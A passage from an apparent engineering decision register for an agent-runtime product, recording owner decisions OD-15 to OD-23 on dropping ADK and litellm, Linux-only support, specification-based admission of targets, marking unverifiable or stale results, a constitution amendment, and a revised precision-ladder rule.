  failure to point at. The design is better and the evidence base is thinner, both at once.

#### What this does not license

- **Not** a claim that ADK is unsuitable, or that finding 003 and finding 006 were wrong. Both
  measured what they say they measured, both stand unamended, and ADK cleared finding 006's
  pre-registered gate. This is a decision about a dependency for one version of one product.
- **Not** a re-opening of OD-02. Its binding reason was bring-your-own-credentials as a hard
  requirement, which is untouched; what dies with OD-15 is only the clause that the executor is ours
  *on ADK*. It is simply ours. The Claude Agent SDK stays an opt-in path we are not building for v1.
- **Not** a decision for v2. The moment v2 emits a topology, the graph-execution limb has a subject
  again and ADK is a live candidate on evidence that has not been withdrawn. **U-12 closes for v1 and
  reopens the day ADK is reconsidered.**
- **Not** a claim that this is cheaper. It is more build for less dependency, and the size of the
  extra build is unknown.

**One thing OD-15 resolves rather than costs, and it is worth naming because it points the other
way.** T-02 exists *because* the adapter drops one provider's opaque state — the envelope sits above
the adapter to compensate for a bottom tier that is thin in the wrong place. Owning the drivers means
FR-037's round-trip is discharged **in** the driver rather than worked around above it, which is
constitution Principle V's two-tier rule in its intended shape rather than as a mitigation. It also
converges v1 with [02](../../research/02-agent-harnesses.md)'s standing verdict — *adopt a thin
substrate, build the harness* — which §2.12 of
[14](../../research/14-architecture-synthesis.md) had been resolving the other way.

**Propagated to** [`VERDICT.md`](./VERDICT.md) (§3 SC-004 register refresh, §5 the D-05/OD-01 line,
§7); `README.md` (the OD-01 decision box); `research/14-architecture-synthesis.md` (TL;DR 10 amended
and 22 added, §2.1 diagram, §2.5, §2.6, §2.7, §2.8, §2.12, **D-05**, **O-06**, **U-03**, **U-12**,
**U-30**, **U-31**, and **U-48** newly opened); `research/02-agent-harnesses.md` §7; and
`research/11-validation-plan.md` §6; and the `harness-selection` and `provider-abstraction` skills
with the roster note in `.cursor/skills/README.md`. Every citation of finding 003 and finding 006 as
*measurements* is left untouched, because none of them is what changed.

### OD-16 — `litellm` is not shipped; v1 talks to each provider's own SDK

**Decided 2026-08-03, alongside OD-15.** `litellm` declares **no license at all** in its published
package metadata, and shipping a component whose license cannot be determined is a legal exposure in
a product sold to customers. v1 depends on no `litellm` at any tier. Each provider is reached through
that vendor's own SDK, behind a driver of ours kept deliberately thin.

**This answers the production plan's Q-08 with option (b) — replace it now — rather than its
recommendation of (a)-now-with-(b)-costed.** OD-15 is what makes (b) cheap: `litellm` was a
transitive dependency of ADK's documented multi-provider path, so with ADK gone there was nothing
left holding it in place.

**What finding 003 recorded, kept intact and correctly ordered.** [finding 003](./findings/003-runtime-provider-agnosticism.md)
result 8 records the license state: the PyPI `License` field is empty, there are no license
classifiers, and the repository `LICENSE` is MIT except for everything under `enterprise/`, which
carries a separate proprietary license. The same finding separately records that LiteLLM stopped
publishing macOS wheels after **1.91.4** — the release the probe pinned — so the documented
multi-provider path needs a Rust toolchain on an Apple-silicon laptop.

> **The record is not being rewritten to make the license the only reason the dependency was ever
> questioned.** The macOS wheel gap was found first, it was a real and correctly reported
> observation, and it is the reason finding 003's own third packaging consequence argues for keeping
> the bottom provider tier ours and thin. **What is true is that it is moot as a *shipping*
> question** — production is a Linux container and OD-17 makes Linux the only supported platform, so
> the wheel gap was always a developer-environment problem, exactly as finding 003 classified it.
> **The license is the reason this is a shipping decision. The wheels are the reason somebody was
> already looking.**

**The cost, stated rather than buried.** Finding 003 drove four providers to a passing completion and
a passing chained tool call **through ADK and LiteLLM**. Two halves of that result travel
differently, and the difference is the whole of what OD-16 spends:

- **The provider-capability half transfers.** The four vendors' APIs support chained tool calling
  with the models tested. Nothing about OD-16 puts that in doubt.
- **The adapter-implementation half does not.** Nothing in this corpus has measured Anthropic's,
  OpenAI's, xAI's or Google's own SDK driving a chained tool call in our hands. **SC-010 stops being
  a result v1 inherits and becomes a test v1 must pass**, and until it does, no document may cite
  finding 003 as evidence that the *shipped* configuration is provider-agnostic.

So OD-16 trades a measured-but-unlicensed path for a licensed-but-unmeasured one, deliberately, on
the grounds that the licensing defect is not fixable by us and the measurement gap is.

**Propagated to** `research/14-architecture-synthesis.md` (§2.7, **U-03**, **U-48**);
`research/02-agent-harnesses.md` §7; and the `provider-abstraction` skill.

### OD-17 — v1 targets Linux only, as a stated supported-platform limit

**Decided 2026-08-03.** The three isolation mechanisms the production plan selects — mount
namespaces for the declared filesystem scope, cgroup v2 for the processor and memory bounds, and
`seccomp` user-notification for the recording clause — are Linux kernel facilities. There is no
macOS or Windows implementation of them and none is planned.

**v1's supported platform is Linux, with cgroup v2 and user and mount namespaces. Every other
platform is unsupported rather than best-effort**, which is what the production specification's
FR-053 requires of anything without a committed fixture. Developer machines run the bundle in a
Linux VM, which is what Docker Desktop already is.

**This answers the production plan's Q-11 as recommended.** The alternative — a degraded mode
elsewhere — is a sandbox missing one of constitution Principle IV bullet 1's four terms, and the
bullet's own words are that a configuration missing any term does not satisfy it.

**Stated as a limit, not left as an assumption.** The point of recording this as an owner decision
rather than as a line in a technical-context table is that it is a **product** constraint a customer
meets at install time, and this corpus has already been caught carrying platform and packaging facts
as environment trivia — finding 003's macOS wheel gap is the instance, discovered by an install
failure whose error text mentioned neither the runtime nor the providers.

### OD-18 — a published machine-readable specification is an admission criterion for v1; a target without one is declined, not served by a lesser mechanism

**Decided 2026-08-03, during the production specification's `/speckit-clarify` session. Recorded
retroactively 2026-08-03, and the retroactivity is the point of this preamble rather than a footnote
to it.** OD-18, OD-19 and OD-20 are the three decisions that session took. All three were applied to
the production specification's requirement text on the day they were made, and **none of the three
was ever written into this register**, so for the interval between the clarify session and this entry
the requirements they authorise rested on owner authority that appeared nowhere in the decision log.
Nothing about the decisions themselves is new here and nothing is being revised; what changes is that
they are now citable.

**The date is established, and it is established from the artifacts' own dated headers rather than
from version control.** [`checklists/requirements.md`](../002-spec-aware-agent-runtime/checklists/requirements.md)
records *"Validation run 1 — 2026-08-03. One item failed: three `[NEEDS CLARIFICATION]` markers, at
FR-002, FR-025 and FR-029"* and then *"Validation run 2 — 2026-08-03, after `/speckit-clarify`. All
three original markers are resolved"*; its marker table's fourth column is headed *"Resolved
2026-08-03"*; and [`spec.md`](../002-spec-aware-agent-runtime/spec.md) carries `**Created**:
2026-08-03` with its clarifications under a `Session 2026-08-03` heading. ~~**No committed artifact
corroborates that date, because none of these files is committed** — the repository holds a single
commit containing `.gitignore`, `LICENSE` and `README.md`, so no version-control timestamp exists for
any document in `specs/` or `research/`. The date therefore rests on four in-repo dated statements
that agree with each other, and on nothing stronger.~~ **Corrected 2026-08-03, later the same day and
in the direction of more evidence rather than less: `specs/` and `research/` are now committed.**
Commit `cee7ff8`, dated **2026-08-03**, contains every document named above, so the struck sentence
is stale rather than wrong — it was true when written. **What the commit adds, and what it does not.**
It establishes that the *text* existed on 2026-08-03, which corroborates the date without excluding
an earlier decision; and because the entire corpus landed in one commit, version control supplies no
ordering *among* these documents and cannot confirm that any dated statement was written when it
says. The date rests on four agreeing in-repo statements plus one same-day commit containing all
four. It is also the same day as this record, so the gap being repaired is a gap in the register
rather than a gap in time. **OD-19, OD-20 and OD-21 inherit this paragraph and its correction.**

**The decision.** A machine-readable specification the target itself publishes, at operation
granularity, is an **admission criterion**. A target that publishes no such specification is **not a
supported target in v1**: it is rejected at admission, with the specification state that was found,
the criterion that failed, and what the operator would have to change, and no agent session starts
against it. v1 does **not** fall back to a schema-free method-level discovery path.

**Authorises** the production specification's **FR-002** and **FR-044**, the Out of Scope row
*"Targets that publish no machine-readable specification of what they serve"*, and the narrowing of
the addressable population recorded in that document's Assumptions.

**This is a safety finding rather than a preference, and that is why it is the consequential one of
the three.** The alternative to requiring a published specification is discovering which methods a
path serves by probing it, and [finding 011](./findings/011-reachability-without-schema.md) §4
measured what that costs. Django's URL resolver carries no method information at all, and a view that
dispatches internally answers whatever it likes with the handler body already run: probing the
undecorated view with a fabricated verb **returned 400 with the handler executed**. Method discovery
by probing therefore runs the target's own code, which a read-only product may not do. The remaining
alternative — an operator declaration of what the deployment serves — was rejected because everything
derived from an unverifiable declaration is provisional under **D-17**, and a product sold on
*verified against the code's own contracts* cannot rest that guarantee on an unchecked assertion.

**What is not excluded, stated because the finding it rests on is precise about it.** Path-level
probing is unaffected. Finding 011 measured it **exact at path granularity — precision 1.0000 on all
seven targets** — and it remains the mechanism behind FR-046's per-operation precondition. The
exclusion is of method discovery by probing, not of probing.

**What this costs, stated rather than buried.** It narrows the addressable population by an
**unmeasured** amount. Nothing in feature 001 measures how many real deployments publish an
operation-granularity specification, and this decision does not measure it either — it decides what
happens to the ones that do not.

**Propagated to** `research/14-architecture-synthesis.md` (**U-39**, and the §5.1 confidence note,
~~which is flagged rather than rewritten because thinning §5.1's pre-registered blocking set is an
owner action — the same treatment U-05 received under OD-08~~ **— the flag was answered later the
same day and both sites are now rewritten; see the reclassification annotation immediately below**);
the production
[`spec.md`](../002-spec-aware-agent-runtime/spec.md) at FR-002, FR-044, the Clarifications session,
the Out of Scope row and the inherited-decisions table; and `docs/spec-kit-workflow.md`.

> ### Annotation — **U-39 is reclassified as v2-blocking. Owner decision, 2026-08-03.**
>
> **This is an annotation on OD-18 and not a new decision row, and the choice is deliberate.** The
> OD-15 through OD-21 precedent is to annotate an existing entry rather than mint a decision row
> where nothing about the product changes, and nothing about the product changes here: OD-18 already
> decided the admission criterion, and what is being decided now is which register the consequence
> sits in. The **U-05 / OD-08 precedent points the same way and is weaker than it looks** — U-05's
> narrowing under OD-08 was recorded as an in-place annotation on the U-05 row with no OD of its own,
> and U-05 has never actually been demoted; it is still in §5.1, still flagged. So that precedent
> establishes the *annotation style* and establishes that thinning §5.1 is an owner act. It does not
> establish what an executed reclassification looks like, because none had been executed before this
> one. *(**Dated rider, 2026-08-03, later the same day.** The clause ~~"U-05 has never actually been
> demoted; it is still in §5.1, still flagged"~~ has since stopped being true: **U-05 was reclassified
> as hosted-tier-blocking** by a separate owner act annotated on OD-08, which mirrored this
> annotation's four site kinds. The rest of the paragraph is unaffected and the last sentence is the
> one worth keeping — **this reclassification was still the first executed one**, and it is the
> template U-05's followed.)*
>
> **The decision.** **U-39 stops blocking v1 and becomes v2-blocking.** It continues to block any
> decision to widen admission beyond OD-18's criterion.
>
> **The reasoning, and each limb is load-bearing.** **① OD-18 discharged the promise question for
> v1.** By making a published machine-readable specification an admission criterion, v1 declines the
> schema-less target rather than choosing a point in U-39's trade space — so U-39's second recommended
> action, *decide the promise explicitly*, is done, and no v1 commitment depends on it. **② The
> prevalence measurement was never made.** How often the per-method-gated route shape occurs in real
> codebases is uncounted, so **0.8000** is an existence proof and not a rate. That is U-39's *first*
> recommended action and OD-18 did not touch it. **③ The unmeasured prevalence stays attached to the
> decision it would inform**, which is the decision to widen admission — a v2 question — rather than
> being discharged along with the v1 promise. The entry changes owner; it does not weaken.
>
> **Propagated to** `research/14-architecture-synthesis.md` at the **U-39** row, at the §5.1 preamble
> (which now states that reclassification is annotated in place like resolution, so membership of
> §5.1 no longer implies blocking v1), and at the §5.1 confidence note, whose live v1-blocking list
> is corrected to **U-02, U-04, U-05, U-06 and U-30**. ~~**U-05 is not reached by this decision** and
> its own demotion flag stays outstanding.~~ **Both sentences were true when written and both are
> superseded later on 2026-08-03 by a second, independent owner act: U-05 is reclassified as
> hosted-tier-blocking, annotated on OD-08.** The corrected live v1-blocking list is therefore
> **U-02, U-04, U-06 and U-30**, and the confidence note carries that supersession in place. This
> decision still reaches U-39 and nothing else; what changed is that something else reached U-05.

### OD-19 — a result v1 cannot verify is returned with its unverifiability marked, not withheld, and the share is measured

**Decided 2026-08-03, in the same session as OD-18. Recorded retroactively 2026-08-03 for the same
reason: the resolution was applied to requirement text and no decision record was created.** The date
is established from the same four artifacts and carries the same limitation — no committed artifact
corroborates it.

**The decision.** Where v1 cannot verify a reported result, it **returns the result with the
unverifiability marked** rather than suppressing it, and it **measures the share of results returned
in that state**. No threshold is pre-registered for that share, because nothing in feature 001
estimates it.

**Authorises** the production specification's **FR-025** and **FR-045**, and **SC-019** which reports
the share.

**Why marking rather than withholding.** It is the pattern **D-17** already mandates for derived
artifacts, which carry provenance and a validation status rather than being suppressed when they
cannot be validated — suppression is what makes a gap invisible. And v1 is read-only (**OD-10**), so a
result the system could not verify misleads a human and cannot damage data, which is the asymmetry
that makes returning it the cheaper error. **FR-024 is unchanged by this decision and is what
*produces* the state**: refusing to invent a tolerance is what creates unverifiable results at all,
and this decision settles only what the caller then sees.

**Propagated to** the production [`spec.md`](../002-spec-aware-agent-runtime/spec.md) at FR-025,
FR-045, the Clarifications session and the inherited-decisions table. No register entry in
`research/14-architecture-synthesis.md` changes state: the share being unknown is carried there and in
the specification's own open-risks section, and this decision does not estimate it.

### OD-20 — a deployment-drift check is both manually invokable and automatically triggerable; not one or the other

**Decided 2026-08-03, in the same session as OD-18 and OD-19. Recorded retroactively 2026-08-03 for
the same reason.** The date is established from the same four artifacts, with the same limitation.

**The decision.** Both. Manual invocation is **always available**, and **at least one automated
trigger is configurable**. The default automated trigger is a scheduled re-fetch of the target's own
published specification, requiring no event from the customer's deployment pipeline.

**Authorises** the production specification's **FR-029** and **FR-046**, and **SC-020**, which asks
for detection under the default automated trigger with no pipeline event supplied *and* on demand
under manual invocation.

**Why two mechanisms rather than one.** **O-04**'s two clocks. The source clock has the commit as a
natural trigger; the deployment clock has no equivalent, because a deployment moves under
configuration, rollout and its installed package set and none of those produces a commit. Whether a
customer can emit a deployment event at all varies by how they deploy, and under a self-hosted model
(**OD-08**) it cannot be assumed — so a product imposing one mechanism would be blind on some
deployments and redundant on others. A customer-emitted deployment event is admissible as a
configured trigger and is the lowest-latency one available where it exists; it may not be the only
one.

**What this decision does not do.** It does not supply a detection-rate, false-alarm-rate or latency
figure. FR-046's five-minute interval and its one-interval-plus-one-check detection window are
**configured defaults and not measurements**, bound to FR-043 so they cannot travel externally as
validated numbers, and **OD-14** already ships the drift capability without its claim.

**Propagated to** the production [`spec.md`](../002-spec-aware-agent-runtime/spec.md) at FR-029,
FR-046, the Clarifications session and the inherited-decisions table.

> ~~**A fourth decision from the same session has no record either, and it is out of these three
> records' scope rather than covered by them.** `checklists/requirements.md`'s marker table carries a
> **marker 4**, opened by markers 1 and 3 interacting and resolved by the owner the same day: an
> admitted target that stops publishing the specification which admitted it is served from the
> last-known-good set marked stale, and denied past a configured staleness ceiling. That is an
> availability property of the product, no feature 001 evidence bears on it, and it is the authority
> behind **FR-047**, **FR-030**'s and **FR-031**'s narrowings and **SC-021**. It is **not** recorded
> as an owner decision here, and recording it is an owner act rather than a propagation one. Noted so
> that the gap is known rather than discovered later.~~
>
> **Closed 2026-08-03 by OD-21 below.** The note was correct in every particular and is struck rather
> than deleted, because what it was right about — that recording the decision was an owner act and
> not a propagation one — is exactly what authorised OD-21. The owner authorised the record; the gap
> it names is now filled and no longer has to be carried as a known one.

### OD-21 — an admitted target that stops publishing its specification is served from the last-known-good set marked stale, and denied past a configured staleness ceiling

**Decided 2026-08-03, at the same production-specification `/speckit-clarify` session as OD-18, OD-19
and OD-20. Recorded retroactively 2026-08-03, and it is the fourth and last of that session's
decisions rather than a new one.** The note struck immediately above this entry named the gap on the
day OD-18 through OD-20 were written and declined to fill it, because filling it required owner
authority that a propagation pass does not have. That authority was given; this is the record. As
with its three siblings, nothing about the decision is new here and nothing is revised — what changes
is that **FR-047**, the narrowings at **FR-030** and **FR-031**, and **SC-021** now rest on a citable
authority instead of on requirement text that recorded its own answer.

**The date is established from the same four in-repo dated statements as OD-18, and unlike OD-18 it
now also has a committed artifact behind it.** [`checklists/requirements.md`](../002-spec-aware-agent-runtime/checklists/requirements.md)'s
marker table heads its fourth column *"Resolved 2026-08-03"* and carries marker 4 in it; the same
document's *"The one failing item, restated"* section is struck as *"closed 2026-08-03"* with the
note *"Marker 4 in the table above carries the decision"*;
[`spec.md`](../002-spec-aware-agent-runtime/spec.md) records the disposition as the fourth answer
under its `Session 2026-08-03` clarifications heading; and the same document states that *"FR-044
through FR-047 were added by the clarification session of 2026-08-03."*
**What is new since OD-18 was written: `specs/` and `research/` are now committed.** Commit
`cee7ff8`, dated **2026-08-03**, contains every document named above, so the claim no longer rests on
in-repo prose alone. **Two limits on how much that adds, stated because the temptation is to treat a
commit as proof.** A commit establishes that the *text* existed by its date, not when the *decision*
was taken, so it corroborates the date without excluding an earlier one. And the whole corpus landed
in a single commit, so version control supplies no ordering *among* these documents and cannot
confirm that the four dated statements were written when they say they were. The date rests on four
agreeing in-repo statements and one same-day commit containing all four.

**The decision.** **(a) — continue on the last-known-good set, marked stale, under a configured
staleness ceiling; deny past it.** A target admitted under FR-002 whose published specification later
becomes absent, unreadable or empty is **not** read as a deployment that serves nothing. For the
interval that follows, the runtime keeps resolving calls against the last-known-good served-operation
set with that set **marked stale on every result**, and **denies** once the ceiling — measured from
the last successful fetch — is crossed. The rejected alternative was **(b)**, deny on the first
failed re-fetch.

**Authorises** the production specification's **FR-047**, the **narrowings of FR-030 and FR-031**
that FR-047 makes (FR-030's disable-the-affected-operation clause does not reach the case where the
observation channel itself fails; FR-031's *after* term is the specification state found rather than
an artifact version when the drift signal is a failed re-fetch), the corresponding narrowing of
**FR-001**, and **SC-021**, which measures both limbs — served-and-marked below the ceiling, denied
above it.

**Why (a), and it is a consistency argument rather than a preference.** This corpus has twice
already decided that the right response to a thing it cannot presently stand behind is to **return it
marked**, not to withhold it: **OD-19 / FR-025** for a result the verifier cannot verify, and
**D-17**'s provisional marking for a derived field with no independent validation, which reaches this
specification as **FR-026**. Choosing (b) here would have been the one place the corpus reversed a
rule it had already applied twice, and it would have reversed it in the direction that makes a gap
invisible — a self-inflicted outage on a transient blip, with no signal distinguishing "the
specification moved" from "the specification endpoint blipped." The marking discipline is inherited
whole rather than re-invented: stale is carried on the same caller-visible record as FR-025's
verification state, machine-distinguishably, and as a **separate field** rather than as a fourth
value of that state, because a result may be verified and stale at once.

**What this decision does not do, and the residual risk it accepts openly.** It supplies **no measured
number**. The **fifteen-minute default ceiling is a configured default and not a measurement** — no
feature 001 evidence bears on how long a served-operation set stays honoured after its specification
stops being published — and it is bound to **FR-043** so it cannot travel externally as a validated
figure, the same treatment FR-046's detection window carries under OD-20 and FR-049's caps carry with
no default at all. It also **accepts a real risk rather than eliminating one**: below the ceiling the
runtime resolves calls against a set the deployment may already have stopped honouring. That is the
cost of (a), the ceiling is what bounds it, and this decision records it as accepted rather than as
absent. Nothing here weakens **FR-030** for an operation actually observed to have drifted; FR-047 is
a **specialization** of FR-030 and not an exception to it.

**Propagated to** the production [`spec.md`](../002-spec-aware-agent-runtime/spec.md) at FR-047, the
FR-030 and FR-031 narrowing notes, the Clarifications session and the inherited-decisions table;
[`checklists/requirements.md`](../002-spec-aware-agent-runtime/checklists/requirements.md) at the
marker-4 row and at the superseded failing-item note; `docs/spec-kit-workflow.md`; and
`research/14-architecture-synthesis.md` at **O-04**, which is **annotated rather than replaced by a
new register row** — the precedent OD-15, OD-16 and OD-17 set. O-04 asked for two refresh triggers
and said "pick one and say which"; OD-20 picked, and this decision supplies the case O-04 never
reached, which is what the runtime does when the picked trigger *fails to fetch*. No `D-`, `C-`, `U-`
or `O-` row is added, and none changes state: O-04 stays open, because the trigger question it holds
is wider than the one deployment-clock failure mode settled here.

### OD-22 — constitution amendment to Principle VI: applied as v1.3.0, restating the traced unit as tier-relative

**Decided and applied 2026-08-03.** The production specification's plan phase recorded deviation
records for Principles II, III and VII on the ground that each addresses *an emitted agent stack* and
v1 emits none. **Principle VI has the same exposure and never got the record**, because the pass that
wrote those three worked from the list of *unmapped* principles and Principle VI was mapped —
[`checklists/requirements.md`](../002-spec-aware-agent-runtime/checklists/requirements.md) found it
and entered it as a fourth exposure. The owner amended rather than recorded.
`.specify/memory/constitution.md` is at **v1.3.0**.

**What the exposure actually was, and it is two clauses with two different defects.** The field list
opened *"Every **emitted system** MUST produce, from day one: one span per node…"* — scoped, and so
without a v1 subject, exactly like the three that got records. The ship gate —
*"a capability that cannot be attributed to a versioned node MUST NOT ship"* — carried **no scope
qualifier at all**, and on a literal reading blocked every v1 capability, because v1 has no nodes.

**Why an amendment rather than a fourth deviation record, and the second ground is the one that
decided it.** First: **a deviation record cannot fix an unscoped `MUST NOT`.** A record states that a
principle does not reach this tier; the ship gate says nothing about tiers, so there is nothing for a
record to scope. Second, and more consequential: the principle's own unit word was already *"span"*.
The graph assumption sat in the **qualifier** — *per node*, *a versioned node* — rather than in the
unit. A v1-scoped record would have left that wording in force and **re-armed it the moment v2 emits
a topology**, which is the failure mode this corpus keeps recording under a different name.

**What changed.** Principle VI's field list is restated over a **traced unit**, a term the principle
now defines as **tier-relative**: the shipping tier declares what its unit is, and each tier's unit is
the finest thing that tier can attribute an outcome to. **v1's declared unit is the span; v2's is the
node.** Four obligations are stated over that unit, all four required: the tier MUST **declare a
closed set of unit kinds** and every traced unit MUST carry one of them; a trace MUST be emitted at
**the finest unit the tier declares**, carrying that unit's identity, a typed outcome and cost; a
**named terminal state** and a decision record carrying the inputs its predicate matched on; and unit
identity MUST be **kept separate from the artifact versions in force**, which are recorded alongside
rather than folded into it. The ship gate becomes *"a capability that cannot be attributed to a
**traced unit of the shipping tier's declared kind** MUST NOT ship."*

**The gate is scoped, not weakened, and the argument turns on which term moved.** The obligation has
three parts: a capability MUST be attributable, the thing it is attributable to MUST be a declared
unit, and a capability failing that MUST NOT ship. **Only the second moved**, and it moved from a
fixed unit to a tier-declared one. The modality is untouched — still `MUST NOT`, still no exception,
still no escape for an unattributable capability. And the tier's declaration is not free: it must be a
**closed set**, declared in advance, at the **finest** granularity the tier has. A tier cannot satisfy
the gate by declaring one coarse unit covering everything, because that fails the finest-unit clause.
**The amended gate is strictly harder to satisfy than the original on any tier that has nodes**,
because it adds the closed-set and finest-unit obligations the original never stated; what it stops
doing is being unsatisfiable on a tier that has none.

**Why 1.3.0 and not 1.2.1 or 2.0.0**, and this one is harder to place than OD-03's or OD-13's was.
Not PATCH: the four obligations are substantive, and the closed-kind-set and finest-unit clauses are
new duties, not restatements. Not MAJOR, on the two grounds OD-13 held together — **no artifact is
invalidated because none exists**, and **nothing compliant becomes non-compliant**. But this
amendment is genuinely different in kind from the two before it, and the difference is recorded
rather than smoothed over: **OD-03 and OD-13 both strengthened, while this one *relaxes* in one
direction** by giving the ship gate a subject it could be satisfied against. What makes it MINOR
anyway is that the relaxation is of an **unsatisfiable** clause rather than of a met one — no
configuration that passed the old gate fails the new one, because on v1 no configuration could pass
the old gate at all — and it arrives packaged with obligations the old text did not carry. Materially
expanded guidance inside an existing principle, which is MINOR. Same instrument as OD-03 and OD-13:
explicit owner approval, an empty migration plan, and a Sync Impact Report at the top of the file.

**What the amendment does *not* do.** It does not make Principle VI's field list a v1 *deliverable* by
itself — **FR-038** is what v1 must build, and the principle is what FR-038 answers to. It does not
retire **SC-012**, which measures the gate and is the reason the gate has a v1 referent at all. And it
does not touch any other principle, including the three that carry deviation records; those records
stand, because their principles' scope clauses are untouched.

**Propagated to** `.specify/memory/constitution.md` (Sync Impact Report, Principle VI, the review-gate
sentence under Development Workflow, version line); the production
[`spec.md`](../002-spec-aware-agent-runtime/spec.md) (Clarifications, the FR-038 note, the
Dependencies clause-by-clause disposition, the Observability per-unit wording);
[`plan.md`](../002-spec-aware-agent-runtime/plan.md)'s Constitution Check;
[`research.md`](../002-spec-aware-agent-runtime/research.md);
[`contracts/trace-record.md`](../002-spec-aware-agent-runtime/contracts/trace-record.md);
[`checklists/requirements.md`](../002-spec-aware-agent-runtime/checklists/requirements.md), where the
fourth-exposure entry is struck and annotated rather than deleted; `research/14-architecture-synthesis.md`;
and `docs/spec-kit-workflow.md`.

### OD-23 — FR-024's request-declared precision rung: ~~becomes a ratchet, admissible only where it tightens~~ **admissible only where the ladder would otherwise refuse** *(revised 2026-08-03)*

> #### ⚠️ REVISED 2026-08-03, later the same day — the ratchet is superseded by the narrower variant this entry itself recorded as available and not taken. *Revised, not wrong.*
>
> **Struck, not deleted.** Everything below about *why* a request-derived rung is dangerous on a
> contract-derived product was true when written and is still true. What is superseded is the
> **admissibility test** the decision drew from it. The ratchet was verified inert — this entry said
> so on the day, in the box below, and the revision is the owner acting on that verification rather
> than a reversal of it.
>
> **The two tests are complementary, and only one of them has a non-empty domain.** The ratchet fires
> only where a non-request comparand **exists**; the rung is only ever reached where **none** does.
> So the ratchet's admissibility set is empty by construction on any first-match ladder, and the
> variant's is exactly the set of quantities that reach the rung. The revision keeps the half that
> can do something.
>
> **The variant is *stricter* than the ratchet wherever the ratchet had any purchase.** Where an
> artifact source does supply a precision, the ratchet would admit a declaration that tightened it;
> the variant **ignores the declaration outright**. Nothing the ratchet protected is weakened to make
> room for this — the region the ratchet governed is governed more tightly now, and it is the empty
> region either way.

**Decided 2026-08-03**, answering the second of the two questions the production specification left
open at its Clarifications section, and **revised 2026-08-03** on the same question in the same day's
session. FR-024 pins verification precision to a six-rung ladder whose last rung is refusal. One rung
accepted **a precision declared in the caller's own request**. The question put to the owner was admit
or exclude; **the owner took neither**, twice — first the ratchet, then, once the ratchet was measured
inert, the narrower variant.

**~~The decision.~~ The decision as first taken — superseded, and kept because the revision is only
legible against it.** ~~A caller-declared precision is admissible **only where it is strictly tighter
than the best comparison the ladder derives from a non-request source** for that same quantity. Where
it is not strictly tighter — equal, looser, or facing no non-request comparand at all — it is
**ignored**, and the ladder proceeds as if the declaration were absent. Because the request rung sits
directly above refusal, that means the quantity refuses, with the declaration named as considered and
rejected. A declared precision may never convert a refusal into a verified state.~~

**The decision as revised.** A caller-declared precision is admissible **only where no artifact source
supplies any precision for that quantity at all** — that is, only where the ladder would otherwise
**refuse**. Where any artifact source does supply one, the declaration is **ignored** and the ladder
proceeds exactly as if it were absent, whether the declaration is tighter, equal or looser. Where none
does, the declaration is admitted, and the verification **MUST** be marked provisional on its own
provenance. The last clause of the superseded text — *a declared precision may never convert a refusal
into a verified state* — is the one sentence the revision reverses, and it is reversed deliberately:
converting a refusal into a **provisionally** verified state, at a precision attributable to a named
source, is the whole of what the variant buys.

**Why the variant, and why it is not the weakening the ratchet was built to stop.** The weakening
vector is a caller loosening a check that would otherwise have been stricter. Where no artifact source
supplies a precision **there is no such check to loosen** — the alternative is refusal, which checks
nothing. So the rung adds a comparison where none existed and cannot degrade one that did. The vector
is absent **by construction** rather than by comparison, which is a stronger guarantee than the
ratchet's and is why the ratchet is not merely relaxed but replaced.

**Why, and the weakening vector is the whole of it.** The rung was request-derived in a product sold
on **contract-derived** verification, and as written it let the party being verified weaken their own
verification by asking for fewer decimal places. The published-specification alternative was closed by
measurement rather than by preference: [finding 015](./findings/015-verifier-vs-judge-not-run.md)
records the target declaring **no numeric precision anywhere across 243 component schemas**. ~~A
ratchet removes the vector structurally rather than by review.~~ **The variant removes it structurally
too, and by domain restriction rather than by direction test** — which is what makes it effective
where the ratchet was not.

> #### ⚠️ The premise was verified and holds. The cost estimate was verified and does not. ~~This is why the decision is not costless.~~ **This is what the revision acts on.**
>
> **The owner's premise — that the request rung was the sole catcher of the three sub-one-percent
> near-misses — is confirmed.** Finding 015 records all three as **one submission**, a mean of `3.23`
> against a recomputed `3.201754`, a relative error of **0.882%**, answered by the same arm at three
> battery versions; and its projection is the **sole** entry on that rung in the census of 61.
>
> **The accompanying expectation — that requiring the rung to tighten "preserves the detection
> capability" — does not survive contact with the census, and this entry says so rather than claiming
> the decision is costless.** Two facts combine. The ladder **takes the first rung it reaches**, so
> the request rung is only ever reached when no artifact source applies, which means the comparand the
> ratchet needs is **empty in precisely the case the ratchet can fire**. And the one declaration ever
> measured was **looser** than the comparison it would now be tested against: two decimal places
> admits `3.20` where exact comparison rejects `3.201754`. So it does not tighten, it is ignored, and
> the quantity refuses. ~~**On the one census available the ladder now refuses eighteen of 61 rather
> than 17, and the three near-miss records move from detected to not verifiable.**~~ **Superseded by
> the revision — see the census paragraph below; the refusal count returns to its as-measured value
> and the three records return to detected.**
>
> **This is a loss of discriminative capability and not a detection failure.** A refused quantity is
> returned not verifiable under FR-025 with a named reason, which is the honest state and is why the
> last rung is a refusal at all. But it is the **numeric half of the surviving discriminative set**
> that finding 015's Amendment B2.2 invited a strict reader to discount, and the decision is the
> product accepting that invitation. ~~**The owner should know the ratchet costs this**, and a
> narrower variant that would keep it — admitting a declaration where no artifact source supplies any
> precision at all, on the ground that there is no check there to weaken — is recorded at FR-024 as
> available and **not taken**, because taking it is an owner act and it is exactly the residual vector
> this decision names.~~ **The owner was told the ratchet cost this and has taken the variant.** It is
> the variant named in the struck sentence, unchanged in substance; what has changed is that the owner
> act the sentence said was required has occurred.

**The census, remeasured against the variant rather than asserted.** Counted directly from the
harness's own machine-readable rung assignments in
`harness/verifier-vs-judge/c2_derivations.json`, which records the ladder rung every one of the 61
projections rests on: **28** integer-closed exactness, **9** text or set identity, **6** the
application's own serialisation, **1** request-declared, and **17** refused. Under the ratchet the
single request-declared entry moved to refusal and the count went to eighteen. **Under the variant it
does not move, and the ladder as now specified refuses 17 of 61 — the as-measured figure, restored.**
The entry qualifies on its own recorded reasoning rather than on a reading of the rule: its stored
derivation states that rung P1 is empty on this target and that the application's own serialisation
does not apply because a mean introduces precision the application never serialised, so **no artifact
source supplies any precision for that quantity**, which is exactly the variant's condition. The three
sub-one-percent near-miss records return from not verifiable to **detected**.

**Provisional marking is retained, and the question was reached again under the variant rather than
carried over.** The conclusion survives. **One limb of the argument for it does not, and the limb is
replaced rather than repeated.**

- **Survives, and is strengthened.** The ratchet governed **direction**; marking governs
  **provenance**, and a precision admitted under the variant is still supplied by the party being
  verified. Constitution Principle I at v1.1.0 requires a derived field either validated against an
  artifact its own derivation did not produce or marked provisional with provenance and confidence,
  and *no artifact source was available* is the premise of the variant's own admissibility test — so
  under the variant the field is, by construction, one that **cannot** be validated against an
